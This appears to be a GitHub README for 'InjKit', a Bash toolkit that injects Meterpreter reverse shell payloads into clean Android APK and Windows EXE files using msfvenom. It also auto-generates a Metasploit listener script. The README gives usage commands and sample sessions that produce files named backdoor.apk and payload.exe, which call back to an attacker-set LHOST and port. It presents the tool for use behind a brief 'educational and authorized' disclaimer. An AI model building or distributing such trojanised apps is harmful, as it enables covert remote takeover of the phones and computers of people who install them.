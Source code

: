 # InjKit

**Payload Injector Toolkit (APK & EXE)**

InjKit is a lightweight and interactive Bash-based toolkit for injecting **Meterpreter reverse shell payloads** into clean Android **APK** files or Windows **EXE** binaries using `msfvenom`.

It consists of **two scripts**:

- `apk_injector.sh` for injecting payloads into APK files (Android)
- `exe_injector.sh` for injecting payloads into EXE files (Windows)

Both scripts are designed to be simple, interactive, and efficient, and automatically generate a matching **Metasploit listener resource script (`listener.r`)** to help you catch the reverse shell with ease.

---

## 📁 Included Scripts

### 1. `apk_injector.sh` — Android APK Injector

Injects a reverse shell payload into a clean APK file using Metasploit’s `msfvenom`.

#### 🔧 Features:

- Simple interactive interface
- Verifies APK file path before injection
- Detects payload settings (LHOST, LPORT)
- Generates a new APK file with embedded payload
- Automatically creates a **Metasploit listener script (`listener.r`)**

---

### 2. `exe_injector.sh` — Windows EXE Injector

Injects a reverse shell payload into a clean Windows EXE file using Metasploit’s `msfvenom`.

#### 🔧 Features:

- Interactive prompts for LHOST, LPORT, and EXE path
- Automatically detects EXE architecture (`x86` or `x64`)
- Selects appropriate payload based on architecture
- Generates a new EXE file with embedded payload
- Automatically creates a **Metasploit listener script (`listener.r`)**

---

#### 🚀 Example Usage:

```bash
chmod +x apk_injector.sh
./apk_injector.sh

🖥️ Sample Terminal Interaction:

===============================
        APK Payload Injector   
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 4444
Enter the path to a clean APK file: /root/app.apk
Enter the output file name (e.g., evil.apk): backdoor.apk

[*] Injecting payload into /root/app.apk...
[+] Payload injected successfully! Saved as: backdoor.apk
[+] Metasploit listener script saved as: listener.r
[*] You can run it using: msfconsole -r listener.r


---

2. exe_injector.sh — Windows EXE Injector

Injects a reverse shell payload into a clean EXE file using Metasploit’s msfvenom.

🔧 Features:

Interactive prompts for LHOST/LPORT and file paths

Detects EXE architecture (x86 or x64) automatically

Selects the appropriate payload

Generates a new EXE with embedded reverse shell

Automatically creates a Metasploit listener script (listener.r)


🚀 Example Usage:

chmod +x exe_injector.sh
./exe_injector.sh

🖥️ Sample Terminal Interaction:

===============================
      EXE Payload Injector     
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 5555
Enter the path to a clean EXE file (e.g., notepad.exe): /root/notepad.exe
Enter the output file name (e.g., evil.exe): payload.exe

=========================================
✅ Architecture detected: x64
=========================================

[*] Injecting payload into /root/notepad.exe...
[+] Payload injected successfully! Saved as: payload.exe
[+] Metasploit listener script saved as: listener.r
[*] You can run it using: msfconsole -r listener.r


---

🎯 Listener Script (listener.r)

After each successful payload injection, a file named listener.r is generated. This file contains the required Metasploit commands to handle the reverse connection.

🔁 How to use it:

msfconsole -r listener.r


---

⚠️ Notes

These tools depend on msfvenom, which is part of the Metasploit Framework.

Ensure Metasploit is installed and that msfvenom is accessible via terminal.

This tool is for educational and authorized penetration testing purposes only.



---

💬 Feedback

Feel free to submit issues, improvements, or suggestions.
Made with ❤️ for learning, red teaming, and ethical hacking.


---




